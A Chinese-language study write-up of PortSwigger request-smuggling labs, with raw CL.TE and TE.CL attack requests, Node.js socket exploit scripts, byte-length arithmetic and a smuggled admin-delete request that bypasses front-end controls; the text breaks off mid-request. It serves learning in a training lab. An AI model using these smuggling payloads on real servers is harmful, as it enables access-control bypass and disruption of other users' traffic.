

## 前言

建議先讀過

1. [深入解說 HTTP message](../http/anatomy-of-an-http-message.md)
2. [HTTP2](../http/http-2.md)
3. [Transfer-Encoding](../http/transfer-encoding.md)

其實在寫 [Transfer-Encoding](../http/transfer-encoding.md) 這篇文章的時候，我就有在 RFC 9112 看到 [request smuggling](https://datatracker.ietf.org/doc/html/rfc9112#request.smuggling) 跟 [response splitting](https://datatracker.ietf.org/doc/html/rfc9112#response.splitting)，只不過 RFC 裡面不會教你怎麼 exploit 這些漏洞

[RFC 9112 #section-6.3](https://datatracker.ietf.org/doc/html/rfc9112#section-6.3) 有提到 `Transfer-Encoding` 跟 `Content-Length` 一起出現時的情境

```
If a message is received with both a Transfer-Encoding and a Content-Length header field, the Transfer-Encoding overrides the Content-Length. Such a message might indicate an attempt to perform request smuggling (Section 11.2) or response splitting (Section 11.1) and ought to be handled as an error.
```

這也正是 HTTP Request Smuggling 的核心，利用 Frontend 跟 Backend 對 HTTP Request 的解析差異

## Lab: basic CL.TE vulnerability

| Dimension | Description                                                                  |
| --------- | ---------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/request-smuggling#cl-te-vulnerabilities |
| Lab       | https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te       |

目標: GPOST

Attack

<div className="httpRawRequest">
  <div className="blue">POST / HTTP/1.1</div>
  <div className="blue">Host: 0ab0000103514a7d8491423300b000e9.web-security-academy.net</div>
  <div className="blue">Content-Length: 6</div>
  <div className="blue">Transfer-Encoding: chunked</div>
  <div className="blue"></div>
  <div className="blue">0</div>
  <div className="blue"></div>
  <div className="orange">G</div>
</div>

Normal

<div className="httpRawRequest">
  <div className="green">POST / HTTP/1.1</div>
  <div className="green">Host: 0ab0000103514a7d8491423300b000e9.web-security-academy.net</div>
  <div className="green"></div>
  <div className="green"></div>
</div>

<!-- ### 2 complete request

我原本想用 NodeJS http 模組來寫 exploit，結果發現要用比較底層的 Socket 才能構造 HTTP Raw Request，第一次成功是用以下 exploit，但只能看到第一個 Response

```ts
import net from "net";
import tls from "tls";

function lab1() {
  return new Promise<true>((resolve) => {
    const url = new URL(
      "https://0a9f00d204680465817839ab00c900b4.web-security-academy.net/",
    );
    const smuggledBody = `0\r\n\r\nGPOST / HTTP/1.1\r\nhost: ${url.host}\r\ncontent-length: 0\r\n\r\n`;
    const socket = net.connect(443, url.host);
    socket.on("connect", () => {
      const tlsSocket = tls.connect({ socket, servername: url.host });
      tlsSocket.on("secureConnect", () => {
        const body =
          "POST / HTTP/1.1\r\n" +
          `host: ${url.host}\r\n` +
          "transfer-encoding: chunked\r\n" +
          "content-type: text/plain\r\n" +
          "cookie: session=fc9liG4ABHCQbWwmn9SRI0e6W2kuuM2g\r\n" +
          `content-length: ${Buffer.byteLength(smuggledBody)}\r\n` +
          "\r\n" +
          smuggledBody;
        tlsSocket.write(body);
      });
      const chunks: Buffer[] = [];
      tlsSocket.on("data", (chunk) => {
        chunks.push(chunk);
      });
      tlsSocket.on("end", () => {
        const body = Buffer.concat(chunks).toString("utf-8");
        console.log(body);
      });
    });
  });
}

lab1();
```

### portSwigger solution

後來模仿答案的 PoC，修改了我的程式碼，第一次的結尾多傳一個 `G`，第二次則是構造完整的 POST 請求，合併起來就是 GPOST

```ts
// import https from 'https'
import net from "net";
import tls from "tls";

async function lab1() {
  await sendRequest(1);
  await sendRequest(2);
}
function sendRequest(round: 1 | 2) {
  return new Promise<true>((resolve) => {
    const url = new URL(
      "https://0a9f00d204680465817839ab00c900b4.web-security-academy.net/",
    );
    const smuggledBody = `0\r\n\r\nG`;
    const socket = net.connect(443, url.host);
    socket.on("connect", () => {
      const tlsSocket = tls.connect({ socket, servername: url.host });
      tlsSocket.on("secureConnect", () => {
        const firstBody =
          "POST / HTTP/1.1\r\n" +
          `host: ${url.host}\r\n` +
          "transfer-encoding: chunked\r\n" +
          "content-type: text/plain\r\n" +
          "cookie: session=fc9liG4ABHCQbWwmn9SRI0e6W2kuuM2g\r\n" +
          `content-length: ${Buffer.byteLength(smuggledBody)}\r\n` +
          "\r\n" +
          smuggledBody;
        const secondBody = `POST / HTTP/1.1\r\nhost: ${url.host}\r\ncontent-length: 0\r\n\r\n`;
        tlsSocket.write(round === 1 ? firstBody : secondBody);
      });
      const chunks: Buffer[] = [];
      tlsSocket.on("data", (chunk) => {
        chunks.push(chunk);
      });
      tlsSocket.on("end", () => {
        const body = Buffer.concat(chunks).toString("utf-8");
        console.log(body);
        resolve(true);
      });
    });
  });
}

lab1();
```

### my solution

經過一番思考，終於理解為何

1. 因為題目有說 `The front-end server rejects requests that aren't using the GET or POST method.`
2. `tlsSocket.write` 要寫入正確的 HTTP Raw Request，才會正確進入 HTTP Server 的 Route
3. 承上，要構造 GPOST HTTP Method 的話，就是第一個請求的結尾寫入 `G`，第二次構造完整的 POST 請求

後來重新自己寫一個 exploit

```ts
// import https from 'https'
import net from "net";
import tls from "tls";

async function lab1() {
  await sendRequest(1);
  await sendRequest(2);
}
function sendRequest(round: 1 | 2) {
  return new Promise<true>((resolve) => {
    const url = new URL(
      "https://0ae200cc04c1b1a8814fed49003b0098.web-security-academy.net/",
    );
    const smuggledBody = `0\r\n\r\nGPOST / HTTP/1.1\r\nhost: ${url.host}\r\ncontent-length: 0`;
    const socket = net.connect(443, url.host);
    socket.on("connect", () => {
      const tlsSocket = tls.connect({ socket, servername: url.host });
      tlsSocket.on("secureConnect", () => {
        const firstBody =
          "POST / HTTP/1.1\r\n" +
          `host: ${url.host}\r\n` +
          "transfer-encoding: chunked\r\n" +
          "content-type: text/plain\r\n" +
          `content-length: ${Buffer.byteLength(smuggledBody)}\r\n` +
          "\r\n" +
          smuggledBody;
        const secondBody = `\r\n\r\nGET / HTTP/1.1\r\nhost: ${url.host}\r\ncontent-length: 0\r\n\r\n`;
        tlsSocket.write(round === 1 ? firstBody : secondBody);
      });
      const chunks: Buffer[] = [];
      tlsSocket.on("data", (chunk) => {
        chunks.push(chunk);
      });
      tlsSocket.on("end", () => {
        const body = Buffer.concat(chunks).toString("utf-8");
        console.log(body);
        resolve(true);
      });
    });
  });
}

lab1();
```

成功在第二個 Response 收到

```
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 27

"Unrecognized method GPOST"
```

我的思路是

1. 第一個請求的 `smuggledBody` 不用 `\r\n\r\n` 結尾，這樣 GPOST 請求就不會發出
2. 第二個請求開頭先用 `\r\n\r\n`，讓 `smuggledBody` 變成完整的 GPOST 請求，之後再塞入一個正常的 GET 請求，讓這個 `tlsSocket.write` 寫入的資料可以正確進到 HTTP Server 的 Route

結論：用 Burp Suite Repeater 最方便，優點如下：

1. 完整控制 Raw HTTP Request
2. 自動處理 TLS handshake，只需專注 Layer 7 (http) 的細節
3. 沒有 NodeJS 複雜的 event 機制
4. 不用寫一堆 `\r\n`，只要按 Enter 鍵就是 `\r\n`

但記得要在 Settings > Network > HTTP 取消勾選 "Default to HTTP/2 if server supports it" -->

## Lab: basic TE.CL vulnerability

| Dimension | Description                                                                  |
| --------- | ---------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/request-smuggling#te-cl-vulnerabilities |
| Lab       | https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl       |

目標: GPOST

Attack

<div className="httpRawRequest">
  <div className="blue">POST / HTTP/1.1</div>
  <div className="blue">Host: 0a1f006f0396832f8190217400c1008f.web-security-academy.net</div>
  <div className="blue">Content-Length: 4</div>
  <div className="blue">Transfer-Encoding: chunked</div>
  <div className="blue"></div>
  <div className="blue">67</div>
  <div className="orange">GPOST / HTTP/1.1</div>
  <div className="orange">Host: 0a1f006f0396832f8190217400c1008f.web-security-academy.net</div>
  <div className="orange">Content-Length: 89</div>
  <div className="orange"></div>
  <div className="orange">0</div>
  <div className="orange"></div>
  <div className="orange"></div>
</div>

Normal

<div className="httpRawRequest">
  <div className="green">POST / HTTP/1.1</div>
  <div className="green">Host: 0a1f006f0396832f8190217400c1008f.web-security-academy.net</div>
  <div className="green"></div>
  <div className="green"></div>
</div>

<!-- 在 Burp Suite Repeater 構造

```
POST / HTTP/1.1
Host: 0ae900a004d0e4fb80ad2b6a00aa0071.web-security-academy.net
Content-Length: 4
Transfer-Encoding: chunked

55
GPOST / HTTP/1.1
Host: 0ae900a004d0e4fb80ad2b6a00aa0071.web-security-academy.net


0


```

其中，Content-Length: 4 => `55\r\n`

至於 55 則是

```ts
Buffer.byteLength(
  `GPOST / HTTP/1.1\r\nHost: 0ae900a004d0e4fb80ad2b6a00aa0071.web-security-academy.net\r\n\r\n`,
).toString(16);
```

這樣做雖然可以達到 HTTP Request Smuggling，但是沒辦法看到第二個 Response => 不是完美的 Solution

是說，TE.CL 的情境，要自己手動算 byte length，為了避免不同作業系統對於換行符號的差異（LF, CRLF），所以用 template literal 搭配 `\r\n` 算起來才會是正確的 byte length

後來我參考官方 Solution，花了 5 分鐘才讀懂這個設計，真的很精妙！我嘗試修改 Raw HTTP Request，讓其更好閱讀

```
POST / HTTP/1.1
Host: 0a2900d0034df62380e0f3ed00fe00e5.web-security-academy.net
Content-Length: 4
Content-Type: text/plain
Transfer-Encoding: chunked

8e
GPOST / HTTP/1.1
Host: 0a2900d0034df62380e0f3ed00fe00e5.web-security-academy.net
Content-Type: text/plain
Content-Length: 19

Only11Bytes
0


```

長度計算

```ts
Buffer.byteLength(`8e\r\n`).toString(10); // 4
Buffer.byteLength(
  `GPOST / HTTP/1.1\r\nHost: 0a2900d0034df62380e0f3ed00fe00e5.web-security-academy.net\r\nContent-Type: text/plain\r\nContent-Length: 19\r\n\r\nOnly11Bytes`,
).toString(16); // 8e
Buffer.byteLength(`Only11Bytes\r\n0\r\n\r\n`); // 18
```

刻意在 orange 的 `Content-Length` 設定 19，讓第一個 HTTP Request 送出時，smuggledRequest 保持在 unprocessed；等到第二個 HTTP Request 送出時，smuggledRequest 就會變成

```
GPOST / HTTP/1.1
Host: 0a2900d0034df62380e0f3ed00fe00e5.web-security-academy.net
Content-Type: text/plain
Content-Length: 19

Only11Bytes
0

P
```

只能說這招真的很精妙，理解的當下真的是覺得，能想到這個 Bypass 技巧的人類真的是大師～ -->

## obfuscating the TE header

https://portswigger.net/web-security/request-smuggling#te-te-behavior-obfuscating-the-te-header

## Lab: TE.CL + obfuscating the TE header

| Dimension | Description                                                                                     |
| --------- | ----------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/request-smuggling#te-te-behavior-obfuscating-the-te-header |
| Lab       | https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header                |

目標: GPOST

Attack

<div className="httpRawRequest">
  <div className="blue">POST / HTTP/1.1</div>
  <div className="blue">Host: 0a14008604002168810fbca600b400b3.web-security-academy.net</div>
  <div className="blue">Content-Length: 4</div>
  <div className="blue">Transfer-Encoding: chunked</div>
  <div className="blue">Transfer-Encoding: x</div>
  <div className="blue"></div>
  <div className="blue">67</div>
  <div className="orange">GPOST / HTTP/1.1</div>
  <div className="orange">Host: 0a14008604002168810fbca600b400b3.web-security-academy.net</div>
  <div className="orange">Content-Length: 89</div>
  <div className="orange"></div>
  <div className="orange">0</div>
  <div className="orange"></div>
  <div className="orange"></div>
</div>

Normal

<div className="httpRawRequest">
  <div className="green">POST / HTTP/1.1</div>
  <div className="green">Host: 0a14008604002168810fbca600b400b3.web-security-academy.net</div>
  <div className="green"></div>
  <div className="green"></div>
</div>

<!-- ### 1. 嘗試 CL 正確，TE 沒有 `\r\n` 結尾

```
POST / HTTP/1.1
Host: 0ac100c303dc801697f00cbc00a20062.web-security-academy.net
Transfer-Encoding: chunked
Transfer-Encoding: x
Content-Length: 1

0
```

回傳

```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
Connection: close
Content-Length: 24

{"error":"Read timeout"}
```

### 2. 嘗試 CL 正確，TE 在 `\r\n` 之後多塞一個 X

```
POST / HTTP/1.1
Host: 0ac100c303dc801697f00cbc00a20062.web-security-academy.net
Transfer-Encoding: chunked
Transfer-Encoding: x
Content-Length: 6

0

X
```

回傳

```
HTTP/1.1 500 Internal Server Error
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 125

<html><head><title>Server Error: Proxy error</title></head><body><h1>Server Error: Communication timed out</h1></body></html>
```

### 3. 嘗試 CL > 實際傳輸，TE 正確

```
POST / HTTP/1.1
Host: 0ac100c303dc801697f00cbc00a20062.web-security-academy.net
Transfer-Encoding: chunked
Transfer-Encoding: x
Content-Length: 10

0


```

回傳

```
HTTP/1.1 500 Internal Server Error
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 125

<html><head><title>Server Error: Proxy error</title></head><body><h1>Server Error: Communication timed out</h1></body></html>
```

### 4. 嘗試 CL < 實際傳輸，TE 正確

```
POST / HTTP/1.1
Host: 0ac100c303dc801697f00cbc00a20062.web-security-academy.net
Transfer-Encoding: chunked
Transfer-Encoding: x
Content-Length: 1

0


```

正常回傳 200，如果 Frontend 是 CL 的話，那就不會把 `\r\n` 傳給 Backend，Backend 用 TE 就會等到 timeout => 但既然回傳 200，代表 Frontend 是用 TE，BE 是用 CL，並且會累積 `\r\n\r\n` 為 unprocessed

故判斷此情境為 TE.CL，回頭看

- [嘗試 1](#1-嘗試-cl-正確te-沒有-rn-結尾)，Frontend 瘋狂等 `\r\n` 等到 Read timeout => 合理
- [嘗試 2](#2-嘗試-cl-正確te-在-rn-之後多塞一個-x)，Frontend 把 `0\r\n` 傳給 Backend，Backend 用 CL 等到天荒地老，Frontend 由於收不到 Backend 的回應，回傳 Communication timed out => 合理
- [嘗試 3](#3-嘗試-cl--實際傳輸te-正確)，Frontend 把 `0\r\n` 傳給 Backend，Backend 用 CL 等到天荒地老，Frontend 由於收不到 Backend 的回應，回傳 Communication timed out => 合理

之後就用 [Lab: HTTP request smuggling, basic CL.TE vulnerability](#lab-http-request-smuggling-basic-clte-vulnerability) 的解法

```
POST / HTTP/1.1
Host: 0ac100c303dc801697f00cbc00a20062.web-security-academy.net
Transfer-Encoding: chunked
Transfer-Encoding: x
Content-Length: 4

74
GPOST / HTTP/1.1
Host: 0ac100c303dc801697f00cbc00a20062.web-security-academy.net
Content-Length: 19

Only11Bytes
0


```

發送兩次，成功解題～ -->

## Finding CL.TE vulnerabilities using timing techniques

https://portswigger.net/web-security/request-smuggling/finding#finding-cl-te-vulnerabilities-using-timing-techniques

<div className="httpRawRequest">
  <div className="blue">POST / HTTP/1.1</div>
  <div className="blue">Host: vulnerable-website.com</div>
  <div className="blue">Content-Length: 4</div>
  <div className="blue">Transfer-Encoding: chunked</div>
  <div className="blue"></div>
  <div className="blue">1</div>
  <div className="blue">A</div>
  <div className="orange">X</div>
</div>

<!-- Frontend => Backend

<div className="httpRawRequest">
  <div className="blue">POST / HTTP/1.1</div>
  <div className="blue">Host: vulnerable-website.com</div>
  <div className="blue">Content-Length: 4</div>
  <div className="blue">Transfer-Encoding: chunked</div>
  <div className="blue"></div>
  <div className="blue">1</div>
  <div className="blue">A</div>
</div>

Backend 等不到 TE 的結尾 `0\r\n` => timeout -->

## Finding TE.CL vulnerabilities using timing techniques

https://portswigger.net/web-security/request-smuggling/finding#finding-te-cl-vulnerabilities-using-timing-techniques

<div className="httpRawRequest">
  <div className="blue">POST / HTTP/1.1</div>
  <div className="blue">Host: vulnerable-website.com</div>
  <div className="blue">Content-Length: 6</div>
  <div className="blue">Transfer-Encoding: chunked</div>
  <div className="blue"></div>
  <div className="blue">0</div>
  <div className="blue"></div>
  <div className="orange">X</div>
</div>

<!-- Frontend 發送給 Backend 的 Raw HTTP Request

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0


```

Backend 等不到 CL 的結尾 => timeout -->

## Lab: confirming a CL.TE vulnerability via differential responses

| Dimension | Description                                                                                                                  |
| --------- | ---------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/request-smuggling/finding#confirming-cl-te-vulnerabilities-using-differential-responses |
| Lab       | https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses               |

目標: 404 Not Found

Attack

<div className="httpRawRequest">
  <div className="blue">POST / HTTP/1.1</div>
  <div className="blue">Host: 0a2b00c704e0c1528106437f00710016.web-security-academy.net</div>
  <div className="blue">Content-Length: 29</div>
  <div className="blue">Transfer-Encoding: chunked</div>
  <div className="blue"></div>
  <div className="blue">0</div>
  <div className="blue"></div>
  <div className="orange">GET /404 HTTP/1.1</div>
  <div className="orange">Foo: </div>
</div>

Normal

<div className="httpRawRequest">
  <div className="green">POST / HTTP/1.1</div>
  <div className="green">Host: 0a2b00c704e0c1528106437f00710016.web-security-academy.net</div>
  <div className="green"></div>
  <div className="green"></div>
</div>

<!-- 第一次

```
POST / HTTP/1.1
Host: 0a5c002d04f9b0c6823be2c800db007d.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 107

0

POST /404 HTTP/1.1
Host: 0a5c002d04f9b0c6823be2c800db007d.web-security-academy.net
Content-Length: 84


```

Frontend 原封不動發送給 Backend，Backend 解析完

```
POST / HTTP/1.1
Host: 0a5c002d04f9b0c6823be2c800db007d.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 107

0


```

然後這些留在 unprocess

```
POST /404 HTTP/1.1
Host: 0a5c002d04f9b0c6823be2c800db007d.web-security-academy.net
Content-Length: 84


```

第二次剛好精準送 84 bytes

```
POST / HTTP/1.1
Host: 0a5c002d04f9b0c6823be2c800db007d.web-security-academy.net


```

第二次完整的 Raw HTTP Request

```
POST /404 HTTP/1.1
Host: 0a5c002d04f9b0c6823be2c800db007d.web-security-academy.net
Content-Length: 84

POST / HTTP/1.1
Host: 0a5c002d04f9b0c6823be2c800db007d.web-security-academy.net


```

84 如何算出來的

```ts
Buffer.byteLength(
  `POST / HTTP/1.1\r\nHost: 0a5c002d04f9b0c6823be2c800db007d.web-security-academy.net\r\n\r\n`,
);
``` -->

## Lab: confirming a TE.CL vulnerability via differential responses

| Dimension | Description                                                                                                                  |
| --------- | ---------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/request-smuggling/finding#confirming-te-cl-vulnerabilities-using-differential-responses |
| Lab       | https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses               |

目標: 404 Not Found

Attack

<div className="httpRawRequest">
  <div className="blue">POST / HTTP/1.1</div>
  <div className="blue">Host: 0a4900360302ea9b81a866a600d10030.web-security-academy.net</div>
  <div className="blue">Content-Length: 4</div>
  <div className="blue">Transfer-Encoding: chunked</div>
  <div className="blue"></div>
  <div className="blue">69</div>
  <div className="orange">POST /404 HTTP/1.1</div>
  <div className="orange">Host: 0a4900360302ea9b81a866a600d10030.web-security-academy.net</div>
  <div className="orange">Content-Length: 89</div>
  <div className="orange"></div>
  <div className="orange">0</div>
  <div className="orange"></div>
  <div className="orange"></div>
</div>

Normal

<div className="httpRawRequest">
  <div className="green">POST / HTTP/1.1</div>
  <div className="green">Host: 0a4900360302ea9b81a866a600d10030.web-security-academy.net</div>
  <div className="green"></div>
  <div className="green"></div>
</div>

<!-- 不用 BApp 的工具，自己算 Byte Length 真的累...但我覺得第一次學習，一定要自己算，等到熟悉了再用工具

PoC

```
POST / HTTP/1.1
Host: 0a7c0042036ae33a805ee45d00c000e9.web-security-academy.net
Content-Length: 4
Transfer-Encoding: chunked

76
POST /404 HTTP/1.1
Host: 0a7c0042036ae33a805ee45d00c000e9.web-security-academy.net
Content-Length: 98

Only11Bytes
0


```

Frontend 原封不動發送給 Backend，Backend 解析完

```
POST / HTTP/1.1
Host: 0a7c0042036ae33a805ee45d00c000e9.web-security-academy.net
Content-Length: 4
Transfer-Encoding: chunked

76

```

第二次發送

```
POST / HTTP/1.1
Host: 0a7c0042036ae33a805ee45d00c000e9.web-security-academy.net


```

組合起來就是

```
POST /404 HTTP/1.1
Host: 0a7c0042036ae33a805ee45d00c000e9.web-security-academy.net
Content-Length: 98

Only11Bytes
0

POST / HTTP/1.1
Host: 0a7c0042036ae33a805ee45d00c000e9.web-security-academy.net
``` -->

## Note

https://portswigger.net/web-security/request-smuggling/finding

- ✅ Use different TCP Connection between Attack & Normal
- ✅ Use same URL between Attack & Normal
- ✅ Attack & Normal MUST send in sequence and try multiple times
- ✅ Use CL.TE first

<!-- 如果對 CL.TE 的系統使用 TE.CL 會發生

<div className="httpRawRequest">
  <div className="blue">POST / HTTP/1.1</div>
  <div className="blue">Host: vulnerable-website.com</div>
  <div className="blue">Content-Length: 6</div>
  <div className="blue">Transfer-Encoding: chunked</div>
  <div className="blue"></div>
  <div className="blue">0</div>
  <div className="blue"></div>
  <div className="orange">X</div>
</div>

Frontend 原封不動發送給 Backend，Backend 解析完

<div className="httpRawRequest">
  <div className="blue">POST / HTTP/1.1</div>
  <div className="blue">Host: vulnerable-website.com</div>
  <div className="blue">Content-Length: 6</div>
  <div className="blue">Transfer-Encoding: chunked</div>
  <div className="blue"></div>
  <div className="blue">0</div>
  <div className="blue"></div>
  <div className="orange"></div>
</div>

<span className="orange">X</span> 留在 unprocessed，下一個用戶可能無法正常訪問

是說，我怎麼覺得這個概念應該安排在 [Lab: HTTP request smuggling, obfuscating the TE header](#lab-http-request-smuggling-obfuscating-the-te-header) 之前，因為這題其實也需要去測試，是 CL.TE 還是 TE.CL -->

<!-- ## Lab: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability -->

## Lab: bypass front-end security controls, CL.TE vulnerability

| Dimension | Description                                                                                                                          |
| --------- | ------------------------------------------------------------------------------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/request-smuggling/exploiting#using-http-request-smuggling-to-bypass-front-end-security-controls |
| Lab       | https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te                                |

Attack

<div className="httpRawRequest">
  <div className="blue">POST / HTTP/1.1</div>
  <div className="blue">Host: 0ac600c604089b5c8218accb007000ad.web-security-academy.net</div>
  <div className="blue">Content-Length: 99</div>
  <div className="blue">Transfer-Encoding: chunked</div>
  <div className="blue"></div>
  <div className="blue">0</div>
  <div className="blue"></div>
  <div className="orange">GET /admin/delete?username=carlos HTTP/1.1</div>
  <div className="orange">Host: localhost</div>
  <div className="orange">Content-Length: 95</div>
  <div className="orange"></div>
  <div className="orange">Only11Bytes</div>
</div>

Normal

<div className="httpRawRequest">
  <div className="green">POST / HTTP/1.1</div>
  <div className="green">Host: 0ac600c604089b5c8218accb007000ad.web-security-academy.net</div>
  <div className="green"></div>
  <div className="green"></div>
</div>

<!-- attack request

```
POST / HTTP/1.1
Host: 0ac600c604089b5c8218accb007000ad.web-security-academy.net
Cookie: session=qUOrUBA9HpdEl2ZdI8srfUZbekw3mLIS
Transfer-Encoding: chunked
Content-Length: 38

0

GET /admin HTTP/1.1
Hello: world
```

normal request

```
POST / HTTP/1.1
Host: 0ac600c604089b5c8218accb007000ad.web-security-academy.net
Cookie: session=qUOrUBA9HpdEl2ZdI8srfUZbekw3mLIS


```

合併起來是

```
GET /admin HTTP/1.1
Hello: worldPOST / HTTP/1.1
Host: 0ac600c604089b5c8218accb007000ad.web-security-academy.net
Cookie: session=qUOrUBA9HpdEl2ZdI8srfUZbekw3mLIS


```

normal request's response

```
HTTP/1.1 401 Unauthorized
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 2676

Admin interface only available to local users
```

如果直接透過瀏覽器訪問 `/admin` 的話，會看到 `"Path /admin is blocked"`，代表我們的 smuggled request 是有成功 proxy 到 backend，只是 backend 還有做一層防護

猜測 Host 要注入 localhost，重新構造一次 attack request

```
POST / HTTP/1.1
Host: 0ac600c604089b5c8218accb007000ad.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 64

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 86

x=
```

normal request

```
POST / HTTP/1.1
Host: 0ac600c604089b5c8218accb007000ad.web-security-academy.net


```

合併起來是

```
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 86

x=POST / HTTP/1.1
Host: 0ac600c604089b5c8218accb007000ad.web-security-academy.net


```

成功 Bypass -->

<!-- ## Lab: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability -->

## Lab: bypass front-end security controls, TE.CL vulnerability

| Dimension | Description                                                                                                                          |
| --------- | ------------------------------------------------------------------------------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/request-smuggling/exploiting#using-http-request-smuggling-to-bypass-front-end-security-controls |
| Lab       | https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl                                |

Attack

<div className="httpRawRequest">
  <div className="blue">POST / HTTP/1.1</div>
  <div className="blue">Host: 0af200b404da314680cf304600870056.web-security-academy.net</div>
  <div className="blue">Content-Length: 4</div>
  <div className="blue">Transfer-Encoding: chunked</div>
  <div className="blue"></div>
  <div className="blue">5f</div>
  <div className="orange">GET /admin/delete?username=carlos HTTP/1.1</div>
  <div className="orange">Host: localhost</div>
  <div className="orange">Content-Length: 102</div>
  <div className="orange"></div>
  <div className="orange">Only11Bytes</div>
  <div className="orange">0</div>
  <div className="orange"></div>
  <div className="orange"></div>
</div>

Normal

<div className="httpRawRequest">
  <div className="green">POST / HTTP/1.1</div>
  <div className="green">Host: 0af200b404da314680cf304600870056.web-security-academy.net</div>
  <div className="green"></div>
  <div className="green"></div>
</div>

<!-- attack request

```
POST / HTTP/1.1
Host: 0af200b404da314680cf304600870056.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 4

5e
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Length: 98

Only11Bytes
0


```

Frontend 原封不動發送給 Backend，Backend 解析完

```
POST / HTTP/1.1
Host: 0af200b404da314680cf304600870056.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 4

5e

```

剩下這些留在 Backend unprocessed

```
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Length: 98

Only11Bytes
0


```

normal request

```
POST / HTTP/1.1
Host: 0af200b404da314680cf304600870056.web-security-academy.net


```

組合起來就是

```
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Length: 98

Only11Bytes
0

POST / HTTP/1.1
Host: 0af200b404da314680cf304600870056.web-security-academy.net


```

P.S. 其實真要算的話，98 應該要改成 102 會比較準確，才可以把最後的 `\r\n\r\n` 也吃掉 -->

<!-- ## Revealing front-end request rewriting

真實世界中，Nginx 把 HTTP Request Proxy Pass 到 Backend 的時候，可能會加上一些 Custom Headers，我們的 Smuggled Request Proxy 到 Backend 若沒有這些 Custom Headers 可能會導致請求失敗，解法有兩種

第一種是 `TRACE / HTTP/1.1`，但實務上會開啟 TRACE 的 Web Server 不多，大概就一些極度老舊的 Apache 預設是開的

第二種是 PortSwigger 提供的技巧，找到一個可以 Reflect Request Body 到 Response 的 Endpoint，例如登入功能

```
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=wiener@normal-user.net
```

登入成功後，Response Body 會包含

```html
<input id="email" value="wiener@normal-user.net" type="text" />
```

attack request

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 135
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=
```

CL.TE，Frontend Server 原封不動把 HTTP Request Proxy 到 Backend Server，Backend Server 用 TE

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 135
